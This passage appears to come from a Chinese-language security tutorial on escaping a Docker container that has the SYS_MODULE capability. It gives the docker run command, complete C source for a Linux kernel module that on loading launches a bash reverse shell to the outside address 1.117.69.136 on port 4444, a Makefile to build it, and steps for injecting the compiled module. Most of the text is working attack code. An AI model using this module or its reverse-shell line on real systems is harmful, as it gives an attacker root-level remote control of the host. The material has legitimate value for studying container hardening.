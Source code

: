 ```plain
docker run --rm -it --cap-add=sys_module ubuntu /bin/bash
```

编译待加载的内核模块

```plain
#reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");


char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/1.117.69.136/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };


// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}


static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}


module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```plain
#Makefile
obj-m +=reverse-shell.o


all:
        make -C /usr/lib/modules/4.18.0-348.7.1.el8_5.x86_64/build M=$(PWD) modules


clean:
        make -C /usr/lib/modules/4.18.0-348.7.1.el8_5.x86_64/build M=$(PWD) clean
```

注意，上边的/usr/lib/modules/4.18.0-348.7.1.el8_5.x86_64/build为我宿主机内核版本对应的地址，不同待逃逸主机该地址不同，同时在编写Makefile时，红框位置为 tab 不是空格

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665595172734-4be425f0-8ca4-4317-85fb-e5ec1cf829b7.png)

编写好Makefile后，进行编译，reverse-shell.ko为我们需要在容器中注入的模块
